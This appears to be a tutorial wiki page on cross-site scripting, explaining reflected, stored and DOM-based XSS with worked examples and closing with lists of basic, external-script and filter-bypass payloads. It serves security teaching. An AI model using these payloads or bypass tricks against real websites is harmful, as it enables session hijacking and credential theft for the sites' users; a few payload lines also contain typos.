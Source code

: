# Cross-site scripting (XSS)
> Cross-site scripting (XSS) is a vulnerability found in web applications. It is a code injection attack where the attacker injects malicious code into web pages which are viewed by other users. It occurs when the user input is not properly filtered.XSS effects differ in a scope from a petty nuisance to momentous security risk, based on the sensitivity of the data handled by the target site and the quality of any security mitigation implemented by the site's admin.

### Impact
The impact of XSS is boundless. A successful XSS may lead to :

- Account hijacking
- Credential-stealing
- Leakage of sensitive data
- Display text that seems to come from the site owners,(Like phishing)
- Log keystrokes
- Redirect to another site
- Gain access to camera/microphone if the victim has granted access to that site.

***Common languages used for XSS***
    
- Javascript
- VBScript
- HTML
- Perl
- C++, ActiveX and Flash

### Types of XSS

1. Reflected XSS
2. Stored XSS
3. DOM-based XSS

#### Reflected XSS
___

This is the most common type of cross-site scripting vulnerability. Here the payload is a part of HTTP request which should give the HTTP response containing the payload embedded in the page. In this type of attack, the attacker has to deliver the payload to the victim.

The attacker uses E-mails and other social engineering methods to get the victim to click on the link which contains the payload within the link. 


***Example***

Let's see a web page which reflects the input given for id parameter into the web page

![reflected_xss](img/wiki/xss/xss.png)

Here the attacker can successfully implement reflected XSS by changing the id parameter to a malicious script

Let's try to pop-up the cookies of the user by injecting a script

```url
localhost/xss.php?id=<script>alert(document.cooike)</script>
```

This gives us a pop-up containing cookies in the page. 

![reflected_xss](img/wiki/xss/xss_2.png)


#### Stored XSS
___

This the most dangerous cross-site scripting attack. The payload injected by the attacker is permanently stored in the web page and whoever visits the page will end up as a victim of this attack.

The most common illustration of this type of XSS is a web page containing commenting functionality. The attacker comments a malicious script which will be stored in the web page, and when another user who visits this page will be affected by this payload.

***Example***

Let's see a web page which displays the status given by users.

Link to the challenge: http://xss-game.appspot.com/level2

![stored_xss](img/wiki/xss/xss_s_1.png)

Now the attacker can give the status as a payload so that it will be stored in the web application and will affect another user.

Let's try to pop-up the alert with the event handler "onerror"

```
<img src="" onerror="alert(1)">
```
![stored_xss](img/wiki/xss/xss_s_2.png)

On sharing this status the payload will be stored in the application and whoever visits the page gets a pop-up.

![stored_xss](img/wiki/xss/xss_s_3.png)

#### DOM-based XSS
___

DOM-based XSS doesn't develop in the HTML part rather develop in the DOM (Document Object Model). i.e unlike reflected and stored XSS attacks where you can see the payload reflected in the web application, DOM-based the source code of the web page remains exactly the same. mostly all the HTML documents have a related DOM, containing the objects characterizing the document properties from the perspective of the browser. Whenever a script is executed client-side, the browser equips the code with the DOM of the web page where the script executes, thus, offering admittance to numerous properties of the web page and their values, populated by the browser from its context.

***Example***

Consider the following page http://example.com/xss.html containing the below code:

```HTML
<script>
    document.write("<b>Current URL</b> : " + document.baseURI);
</script>
```

If you send an HTTP request to the web page like this 
```
http://example.com/xss.html#<script>alert(1)</script>
```

straightforward enough that your JavaScript code will get executed, as the web page is writing whatsoever you typed in the URL to the page with document. write function. If you glance at the source of the page, you won't see \<script>alert(1)\</script> because it's all proceeding in the DOM and done by the executed JavaScript code.

### Some payloads

**Basic payloads**
```html
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
<img src=x onerror=alert('XSS');>
<svgonload=alert(1)>
<body onload=alert(/XSS/.source)>
<textarea autofocus onfocus=alert(1)>
```

**External payload**
```html
<script src=14.rs>
```

**Bypass filters**
```html
<sCrIpT>alert(1)</ScRipt>
<script x>alert('XSS')<script y>
eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
```

---